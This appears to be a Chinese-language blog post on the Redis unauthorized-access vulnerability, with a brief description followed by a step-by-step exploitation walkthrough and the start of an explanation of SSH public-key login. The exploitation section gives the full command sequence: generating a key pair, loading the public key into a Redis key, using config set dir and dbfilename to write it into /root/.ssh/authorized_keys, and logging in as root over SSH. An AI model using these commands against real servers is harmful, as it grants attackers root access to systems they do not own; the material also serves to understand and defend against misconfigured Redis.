 ```yaml
---
title: redis ssh 漏洞
layout: post
category: storage
author: 夏泽民
---
```

https://github.com/knownsec/pocsuite

Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。

漏洞描述
部分 Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是 Redis 的默认配置），如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，导致其他用户可以直接在非授权情况下直接访问 Redis 服务并进行相关操作。

利用 Redis 自身的提供的 config 命令，可以进行写文件操作，攻击者可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的 authotrized_keys 文件中，进而可以直接使用对应的私钥登录目标服务器。

二、漏洞利用
首先在本地生产公私钥文件：
$ ssh-keygen –t rsa
 
然后将公钥写入 foo.txt 文件
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
 
连接 Redis 写入文件
$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
$ redis-cli -h 192.168.1.11
$ 192.168.1.11:6379> config set dir /root/.ssh/
OK
$ 192.168.1.11:6379> config get dir
1) "dir"
2) "/root/.ssh"
$ 192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
$ 192.168.1.11:6379> save
OK
 
这里讲解下，这里设定了 crackit 的键值为公钥，并通过 redis 命令变更 Redis DB 文件及存放地点为默认 root 用户 SSH key 存放文件，并将键值重定向追加到远程文件 authorized_keys 的末尾，也就上传了公钥。

这样就可以成功的将自己的公钥写入 /root/.ssh 文件夹的 authotrized_keys 文件里，然后攻击者直接执行：
$ ssh –i  id_rsa root@192.168.1.11
 
可远程利用自己的私钥登录该服务器。

刚刚我们提到公钥登录和 Redis 持久化存放数据操作，这里简单讲下原理

详细讲解 ssh 登录--公钥登录
SSH 提供了公钥登录，可以省去输入密码的步骤。

所谓" 公钥登录"，原理很简单，就是用户将自己的公钥储存在远程主机上。登录的时候，远程主机会向用户发送一段随机字符串，用户用自己的私钥加密后，再发回来。远程主机用事先储存的公钥进行解密，如果成功，就证明用户是可信的，直接允许登录 shell，不再要求密码。

这种方法要求用户必须提供自己的公钥。如果没有现成的，可以直接用 ssh-keygen 生成一个：
$ ssh-keygen
 